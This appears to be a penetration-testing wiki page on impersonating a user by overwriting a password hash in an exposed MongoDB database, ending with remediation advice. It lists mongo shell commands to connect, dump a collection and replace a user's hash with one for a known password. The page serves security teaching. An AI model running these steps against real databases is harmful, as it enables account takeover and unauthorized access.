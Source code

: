 # MongoDB - Impersonation via credentials change

Having access to a _MongoDB_ service, it could be possible to change sensitive information for users in a database, for example, change the credentials used in a website, such as a login page. Here we found an explanation of this process:

* &#x20;Connect to the database service using [_Mongocli_](../tools-and-utilities.md#mongocli) or [_Mongosh_](../tools-and-utilities.md#mongosh)

{% code overflow="wrap" lineNumbers="true" %}
```bash
mongo --port $serviceport
```
{% endcode %}

***

* Search for database names on the system and connect to the desired one. Then look for the collections inside it, select one considered important, and retrieve sensitive information

{% code overflow="wrap" lineNumbers="true" %}
```bash
use $database;
show collections;
db.$chosenCollection.find(); #For example, db.admin.find();
#Example output
{"id": ObjectID("...id..."), "name": "...name...", "email": "...email...", "x_shadow": "...hash...",
...
```
{% endcode %}

***

* Check the password hash, create a new one for a known value using the same encryption/hashing, and update it in the database. Then use the changed credentials to impersonate the user

{% code overflow="wrap" lineNumbers="true" %}
```bash
db.admin.update({ "name": "...name..." }, { $set: { "x_shadow": "$6$9Ter1EZ9$4RCTnLfeDJsdAQ16M5d1d5Ztg2CE1J2IDlbAPSUcqYOoxjEEcpMQag41dtCQv2cJ.n9kvlx46hNT78dngJBVt0" # Example generated hash for Ch4ngeM3VeryQu!ck in SHA512
...
```
{% endcode %}

## <mark style="color:blue;">Remediation Actions</mark> <a href="#preventing-nosql-injection" id="preventing-nosql-injection"></a>

* Use Role-Based Access Control (RBAC) to avoid modification of values by unauthorized users
* Avoid giving the _root_, _userAdmin_, or _dbAdmin_ roles to accounts used by applications
* Enforce strong passwords for all users
* Enable auditing for actions on sensitive  collections
* Hash passwords in the application layer using modern techniques like _bcrypt_ or _Argon2_, and use salt and pepper for hashes
